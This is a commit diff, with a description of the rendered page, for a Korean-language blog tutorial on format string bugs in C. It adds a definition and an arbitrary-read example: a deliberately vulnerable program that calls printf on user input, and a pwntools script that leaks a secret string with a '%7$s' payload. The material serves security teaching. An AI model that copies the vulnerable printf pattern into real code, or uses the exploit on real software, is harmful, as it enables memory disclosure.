

Before and after one commit to Herrtane/Herrtane.github.io, a Jekyll site: the page built from _posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown, in a window 1280 px wide and 1400 px high, scrolled down 3369 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 3999 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2022-10-06-systemhacking-formatstringbug.markdown

````diff
--- a/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
+++ b/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
@@ -7,6 +7,8 @@ comments: true
 ---
 
 ## Format String에 대하여
+
+> 포맷 스트링(Format String): printf 계열 함수의 첫 번째 인자로 전달되는, %d, %p, %s 등의 포맷 지정자를 포함한 문자열
 
 - %d : 값을 입력하면 10진수를 출력
 - %s : 포인터를 입력하면 해당 포인터에 위치하는 null바이트로 끝나는 문자열을 출력
@@ -43,7 +45,7 @@ printf("%5$p");         // Format string bug : 8번째 parameter에 해당하는
 
 ![FSB]({{site.url}}/img/FSB.png)
 
-위의 그림을 보자. 보통 왼쪽의 형식으로 printf를 사용하지만, 만약 오른쪽의 형식으로 잘못 사용할 경우, printf (혹은 기타 포맷 스트링 사용 함수들)는 기존의 방식대로 값을 참조하기 때문에, 포맷 스트링 개수만큼 main 함수의 스택 내용을 임의로 참조하게 된다. 이를 사용하여 FSB 해킹을 진행하게 된다. printf의 parameter 개수는 format string 개수로 결정된다.
+위의 그림을 보자. 보통 왼쪽의 형식으로 printf를 사용하지만, 만약 오른쪽의 형식으로 잘못 사용할 경우, printf (혹은 기타 포맷 스트링 사용 함수들)는 기존의 방식대로 값을 참조하기 때문에, **Format string 안에 있는 Format specifier의 개수(%p, %d, %s..)만큼 main 함수의 스택 내용을 임의로 참조**하게 된다. 이를 사용하여 FSB 해킹을 진행하게 된다. printf의 parameter 개수는 Format string specifier 개수로 결정된다.
 
 <br/>
 
@@ -142,3 +144,40 @@ printf("%p %p %p", a, b, c);
 //     rdi         rsi rdx rcx
 //  (포맷 해석용)  (1번째 %p) (2번째 %p) (3번째 %p)
 ```
+
+이제 해커의 시선으로 보자. 6번째 출력값인 `[rsp]` 부터는 사용자의 입력값을 8글자씩 참조하기 시작하는데, 이를 응용하면 원하는 주소를 넣고 읽거나 쓰는 것이 가능하다.
+
+### Example Code 2 : 임의 주소 읽기 (2026.05.12 추가)
+
+```c
+#include <stdio.h>
+
+const char* secret = "THIS IS SECRET";
+
+int main(){
+        char format[0x100];
+
+        printf("Address of `secret`: %p\n", secret);
+        printf("Format: ");
+        scanf("%[^\n]", format);
+        printf(format);
+        return 0;
+}
+```
+
+여기서 `secret`의 주소를 처음에 출력해주므로, Payload에 해당 주소를 넣어주고, **`%[n]$s`의 형식으로 스택에 저장된 Payload의 `secret`의 주소를 문자열 형식으로 읽을 수 있다**.
+
+```python
+from pwn import *
+
+p = process('./fsb_aar')
+
+p.recvuntil('`secret`: ')
+secret_addr = int(p.recvline()[:-1].decode(),16)
+
+fstring = b'%7$s'.ljust(8)
+fstring += p64(secret_addr)
+
+p.sendline(fstring)
+p.interactive()
+```
````
